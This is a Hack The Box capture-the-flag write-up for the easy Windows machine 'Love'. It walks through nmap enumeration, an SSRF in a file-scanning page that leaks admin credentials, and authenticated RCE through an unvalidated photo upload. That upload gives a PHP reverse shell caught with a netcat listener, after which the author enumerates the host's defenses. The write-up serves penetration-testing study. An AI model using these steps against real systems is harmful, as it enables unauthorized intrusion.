+++
title = "Love"
date = "2023-12-20"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2021-05-01

**Created by**: [pwnmeow](https://app.hackthebox.com/users/157669)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.12`, while the target machine's IP address will be `10.10.10.239`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp/` or `C:\tmp\` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Love using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.239 -p-
```

```
<SNIP>
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5000/tcp  open  upnp
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
7680/tcp  open  pando-pub
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.10.239 -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680 -sV
```

```
<SNIP>
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
5040/tcp open  unknown
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp open  pando-pub?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<SNIP>
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Love is running Windows. That's good to know!

It also found a wealth of open ports, but it's quite common for a Windows host.

First of all, the ports `80/tcp`, `443/tcp` and `5000/tcp` are all utilized by an Apache web server. According to the `nmap` scan results, the detected Apache version is `2.4.46`, and it operates with PHP version `7.3.27`. It also found out that this is the Windows x64 version, which gives us insights about Love's architecture! One of these web servers is likely our entry point into the box.

Another open port is the port `135/tcp`, corresponding to MSRPC. We can use it to run a bunch of queries through the machine exposed RPCs, but it's seldom a good entry point: it's often used to enumerate the AD domain the machine is linked to. Maybe we'll come back to it if we find out that Love is actually linked to a domain.

There's also the port `139/tcp`, used by the service `netbios-ssn`. There's not much to say about it, it's just a networking protocol used for communication between devices on a LAN. It's also used as a fallback for SMB in situations where more modern and efficient methods are not available.

Speaking of SMB, it listens for connections on the standard port `445/tcp`. It looks like it corresponds to a version ranging from Windows 7 to Windows 10. Love's version is becoming clearer!

Furthermore, the port `3306/tcp`, commonly used by MySQL, is listening for connections. It might be worth peeking into it.

There's also a mysterious service on port `5040/tcp`, which `nmap` couldn't identify.

More interestingly, the ports `5985/tcp` and `5986/tcp` are used by WinRM, so if we get credentials we'll have an easy shell.

And finally, connections are being accepted on port `7680/tcp`, likely associated with `pando-pub`. I've encountered this service previously, and it proved to be useless, so I'll ignore it.

## Scripts

Let's run `nmap`'s default scripts on these services to see if it finds something interesting.

```sh
❯ nmap -sS 10.10.10.239 -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680 -sC
```

```
<SNIP>
PORT     STATE SERVICE
80/tcp   open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
443/tcp  open  https
| tls-alpn: 
|_  http/1.1
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
445/tcp  open  microsoft-ds
3306/tcp open  mysql
5000/tcp open  upnp
5040/tcp open  unknown
5985/tcp open  wsman
5986/tcp open  wsmans
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2023-12-19T22:36:18+00:00; +1h21m33s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
7680/tcp open  pando-pub

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 3h21m33s, deviation: 4h00m01s, median: 1h21m32s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-12-19T14:36:20-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-19T22:36:19
|_  start_date: N/A
<SNIP>
```

Alright, so `nmap`'s scans found several information.

The HTTP title of the web server on port `80/tcp` is set to 'Voting System using PHP'. The one on port `443/tcp` probably refuses connections as indicated by the '403 Forbidden' title, but the SSL certificate leaks a `staging.love.htb` domain!

Let's add it to our hosts file.

```sh
❯ echo "10.10.10.239 love.htb staging.love.htb" | tee -a /etc/hosts
```

The `smb-os-discovery` script also found that Love was running Windows 10.

Let's start our enumeration of the box with SMB!

## SMB (port `445/tcp`)

### Anonymous login

We can try to connect to the SMB server as the `NULL` user. With a bit of luck, this will work!

```sh
❯ smbclient -L //10.10.10.239 -N
```

```
session setup failed: NT_STATUS_ACCESS_DENIED
```

Well, apparently it doesn't.

### Common credentials

We can try common credentails too, but to no avail.

### Known CVEs

Let's see if SMB is vulnerable to known CVEs.

```sh
❯ nmap -sS 10.10.10.239 -p 445 --script vuln
```

```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
```

Well, looks like it isn't! Let's move on to MySQL then.

## MariaDB (port `3306/tcp`)

We noticed that the port `3306/tcp` was open, which probably means that a MySQL instance is running on Love. Let's explore it!

```sh
❯ mysql -h 10.10.10.239
```

It doesn't work, but it leaks that it's not using MySQL, but MariaDB!

## Apache (port `80/tcp`)

Let's browse to `http://love.htb` and see which webpage is served.



It looks like a login form to vote for something.

### HTTP headers

Before exploring it further, let's check the HTTP response headers when we request the homepage.

```sh
❯ curl -k http://love.htb -I
```

```
HTTP/1.1 200 OK
Date: Tue, 19 Dec 2023 22:54:44 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
X-Powered-By: PHP/7.3.27
Set-Cookie: PHPSESSID=k5ni7uvk435l5versa6hqvvvti; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

Alright, so this confirms `nmap`'s scripts output.

### Technology lookup

Just in case, let's look up the technologies in use with the [Wappalyzer](https://www.wappalyzer.com/) extension.



So it confirms what we already discovered, but it also reveals that this website is using Bootstrap and libraries like jQuery.

### Common credentials

We can try to enter common credentials, but it doesn't work. It returns this error message:


We may be able to bruteforce valid IDs! But we would still need a valid password.

### Under the hood

When we press the 'Sign In' button, a POST request is actually sent to `/login.php` with the data:

```html
voter=username&password=password&login=
```

The response code is `302` in case of an invalid login request, which redirects to `/index.php`.

### SQLi

I tried some SQLi payloads, but none were successful.

### Site crawling

Let's crawl the website to see there are hidden files and directories.

```sh
❯ katana -u http://love.htb
```

```
<SNIP>
[INF] Started standard crawling for => http://love.htb
http://love.htb
http://love.htb/bower_components/jquery-slimscroll/jquery.slimscroll.min.js
http://love.htb/bower_components/fastclick/lib/fastclick.js
http://love.htb/bower_components/datatables.net-bs/js/dataTables.bootstrap.min.js
http://love.htb/plugins/iCheck/icheck.min.js
http://love.htb/dist/js/adminlte.min.js
http://love.htb/bower_components/datatables.net-bs/css/dataTables.bootstrap.min.css
http://love.htb/plugins/iCheck/all.css
http://love.htb/bower_components/bootstrap/dist/js/bootstrap.min.js
http://love.htb/bower_components/font-awesome/css/font-awesome.min.css
http://love.htb/dist/css/skins/_all-skins.min.css
http://love.htb/dist/css/AdminLTE.min.css
http://love.htb/bower_components/bootstrap/dist/css/bootstrap.min.css
http://love.htb/bower_components/datatables.net/js/jquery.dataTables.min.js
http://love.htb/bower_components/jquery/dist/jquery.min.js
```

The `dist/css/AdminLTE.min.css` has a promising name, but obviously it's only a CSS file.

Still, if we get its content:

```css
/*!
 *  AdminLTE v2.4.0
 *  Author: Almsaeed Studio
 *  Website: Almsaeed Studio <https://adminlte.io>
 *  License: Open source - MIT
 *  Please visit http://opensource.org/licenses/MIT for more information
 */
<SNIP>
```

If we search online, we find that `AdminLTE` is a Bootstrap dashboard template. This means that there must be a dashboard for admins!

### Directory fuzzing

Let's see if we can find unliked folders.

```sh
❯ ffuf -v -c -u http://love.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -maxtime 60
```

```
[Status: 301, Size: 332, Words: 22, Lines: 10, Duration: 65ms]
| URL | http://love.htb/includes
| --> | http://love.htb/includes/
    * FUZZ: includes

[Status: 301, Size: 329, Words: 22, Lines: 10, Duration: 73ms]
| URL | http://love.htb/admin
| --> | http://love.htb/admin/
    * FUZZ: admin

[Status: 301, Size: 330, Words: 22, Lines: 10, Duration: 75ms]
| URL | http://love.htb/images
| --> | http://love.htb/images/
    * FUZZ: images

[Status: 301, Size: 331, Words: 22, Lines: 10, Duration: 104ms]
| URL | http://love.htb/plugins
| --> | http://love.htb/plugins/
    * FUZZ: plugins

[Status: 301, Size: 329, Words: 22, Lines: 10, Duration: 61ms]
| URL | http://love.htb/Admin
| --> | http://love.htb/Admin/
    * FUZZ: Admin

[Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 72ms]
| URL | http://love.htb/webalizer
    * FUZZ: webalizer

[Status: 301, Size: 330, Words: 22, Lines: 10, Duration: 64ms]
| URL | http://love.htb/Images
| --> | http://love.htb/Images/
    * FUZZ: Images

[Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 58ms]
| URL | http://love.htb/phpmyadmin
    * FUZZ: phpmyadmin

[Status: 301, Size: 332, Words: 22, Lines: 10, Duration: 60ms]
| URL | http://love.htb/Includes
| --> | http://love.htb/Includes/
    * FUZZ: Includes

[Status: 301, Size: 329, Words: 22, Lines: 10, Duration: 54ms]
| URL | http://love.htb/ADMIN
| --> | http://love.htb/ADMIN/
    * FUZZ: ADMIN

[Status: 301, Size: 328, Words: 22, Lines: 10, Duration: 68ms]
| URL | http://love.htb/dist
| --> | http://love.htb/dist/
    * FUZZ: dist

[Status: 301, Size: 330, Words: 22, Lines: 10, Duration: 60ms]
| URL | http://love.htb/IMAGES
| --> | http://love.htb/IMAGES/
    * FUZZ: IMAGES

[Status: 301, Size: 329, Words: 22, Lines: 10, Duration: 61ms]
| URL | http://love.htb/tcpdf
| --> | http://love.htb/tcpdf/
    * FUZZ: tcpdf

[Status: 403, Size: 417, Words: 37, Lines: 12, Duration: 76ms]
| URL | http://love.htb/licenses
    * FUZZ: licenses

[Status: 403, Size: 417, Words: 37, Lines: 12, Duration: 63ms]
| URL | http://love.htb/server-status
    * FUZZ: server-status

[Status: 200, Size: 4388, Words: 654, Lines: 126, Duration: 131ms]
| URL | http://love.htb/
    * FUZZ: 

[Status: 301, Size: 331, Words: 22, Lines: 10, Duration: 65ms]
| URL | http://love.htb/PlugIns
| --> | http://love.htb/PlugIns/
    * FUZZ: PlugIns

[Status: 301, Size: 332, Words: 22, Lines: 10, Duration: 56ms]
| URL | http://love.htb/INCLUDES
| --> | http://love.htb/INCLUDES/
    * FUZZ: INCLUDES

[Status: 301, Size: 331, Words: 22, Lines: 10, Duration: 65ms]
| URL | http://love.htb/Plugins
| --> | http://love.htb/Plugins/
    * FUZZ: Plugins

[Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 57ms]
| URL | http://love.htb/con
    * FUZZ: con

[Status: 403, Size: 298, Words: 22, Lines: 10, Duration: 43ms]
| URL | http://love.htb/aux
    * FUZZ: aux
```

It gets a few hits. One of them is `admin`!

Let's browse to `http://love.htb/admin`.



The same form! But this time, if we fill it with `foo` as the username, the error message is different:


And if we try `admin`:


Now we have a way to enumerate usernames!

### Known CVEs

We found the 'Voting System' form twice already. Maybe it's not a fully custom PHP web application, but a common one?

If we search online for this name, we stumble across [this webpage](https://www.sourcecodester.com/php/12306/voting-system-using-php.html). It mentions that this is a web application that uses PHP and MySQL, and the `AdminLTE` plugin.

These technologies fit this website!

If we search [ExploitDB](https://www.exploit-db.com/) for `Voting System`, we find many entries. Unfortunately, none of the ones I tried worked.

### `staging.love.htb` subdomain

Let's not lose too much time on the `love.htb` domain, since we found in the [Scripts](#scripts) section a subdomain.

Let's browse to `http://staging.love.htb` and see which web page is served.



So it's a website to scan files for known malware signatures.

### Under the hood

If we fill the sign up form and press enter, we are just redirected to the same webpage. In fact, it just sends a GET request to `/?`, so this functionality doesn't really exist.

### Exploration

If we browse the website, we see that we have access to web page located at `/beta.php`.



We can enter a URL corresponding to the file we want to scan.

If we enter an empty URL, we receive an alert 'Please enter a file url to scan'. If we enter `foo`, the web page just reloads.

### Under the hood

Upon pressing the 'Scan file' button, a POST request is sent to `/beta.php` with content:

```html
file=foo&read=Scan+file
```

The response contains a `200` code, and returns the same `beta.php` web page.

However, unlike the sign up form, this one actually sends data... there must be some PHP code to perform checks on the URL file we entered. But to perform these checks, it needs to fetch that file!

I'll specify a URL refering to a non-existent file on the HTTP server I set up in the [Setup](#setup) section. I'll enter `http://10.10.14.12:8000/nonExistent` as the file URL, and I'll press on the 'Scan file' button.



This time there's a '404 page not found' error message under the form. But wait... if it didn't find this file, it means that it must have tried! Let's check our HTTP server:

```
<SNIP>
[2023-12-20 09:09:24] 10.10.10.239:62305 "GET /nonExistent HTTP/1.1" 404 19
<SNIP>
```

It did!

Now let's try to retrieve a file that does exist.



It includes the content of the retrieved file in the response!

### SSRF

Now we know that the PHP code fetches the file from the URL we enter and shows it back. Maybe we can use this to retrieve the content of web pages we don't have access to?

We can try to access the web severs we found in the [TCP port scanning](#tcp-port-scanning) section.

If we enter `https://127.0.0.1:443` as the file URL, it returns nothing. But if we enter `http://127.0.0.1:5000`...



We should be able to use the credentials `admin`:`@LoveIsInTheAir!!!!` to access the dashboard for the voting system on the `love.htb` domain!

### Voting system dashboard

Let's browse to `http://love.htb/admin` and enter the credentials we just found.



Okay, we have access to a dashboard now.

We can manage the voters, positions and candidates, but they're all empty. We can also see the votes, but there's none.

# Foothold (Authenticated RCE)

Back to the [Known CVEs](#known-cves) section, one of the [ExploitDB](https://www.exploit-db.com/) entries was [Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)](https://www.exploit-db.com/exploits/49445). Since we're authenticated now, it might be worth trying it!

When adding voters, we can specify various fields like 'First name', 'Last name' or 'Password', but also 'Photo'. The vulnerability lies in this `photo` field: the image we enter is not validated, which means that we can create any type of file, including PHP files, and execute them on the server side. This effectively leads to RCE.

This vulnerability is easy to exploit by hand, so I won't use the provided Python script.

## Preparation

Let's use this vulnerability to obtain a reverse shell. I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Now, let's create the PHP file to get the reverse shell. I'm going to use the 'PHP Ivan Sincek' one from the last website, configured to use a `cmd` shell. The payload is more than 100 lines long, so I won't include it here.

Let's save it as `/workspace/revshell.php`.

## Exploitation

Now, let's create a new voter with random fields. The only one that matters is 'Photo', we have to set it to our PHP file.



Then, the webpage should automatically reload, and if we look at our listener:

```
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.239] 62381
SOCKET: Shell has connected! PID: 2408
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

It caught the reverse shell!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `phoebe`.

## Version

Let's gather some information about the Windows version of Love.

```cmd
C:\xampp\htdocs\omrs\images> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ProductName    REG_SZ    Windows 10 Pro
```

Okay, so this confirms that Love is using Windows 10 Pro.

```cmd
C:\xampp\htdocs\omrs\images> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    CurrentBuildNumber    REG_SZ    19042
```

And this is build `19042`.

This version of Windows is somewhat recent, but maybe there are missing hotfixes. We'll check that later, if we can't find another way to get `NT AUTHORITY\SYSTEM`.

## Architecture

What is Love's architecture?

```cmd
C:\xampp\htdocs\omrs\images> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    AMD64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Windows Defender

Let's check if Windows Defender is enabled.

```cmd
C:\xampp\htdocs\omrs\images> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender" /v ProductStatus
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender
    ProductStatus    REG_DWORD    0x0
```

It's disabled! That's great, it will make our life easier.

## AMSI

Let's check if there's any AMSI provider.

```cmd
C:\xampp\htdocs\omrs\images> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\AMSI\Providers"
```

There's no output, so no AMSI provider here!

## Firewall

Let's see which Windows Firewall policies profiles are enabled.

```cmd
C:\xampp\htdocs\omrs\images> reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy" /s /v EnableFirewall
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile
    EnableFirewall    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile
    EnableFirewall    REG_DWORD    0x0

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile
    EnableFirewall    REG_DWORD    0x0

End of search: 3 match(es) found.
```

Okay, so only the Firewall domain profile is enabled. It shouldn't hinder our progression too much though: since we alreay managed to obtain a reverse shell, the protections should be really basic.

## NICs

Let's gather the list of connected NICs.

```cmd
C:\xampp\htdocs\omrs\images> ipconfig /all
```

```
Windows IP Configuration

   Host Name . . . . . . . . . . . . : Love
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-BC-9A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
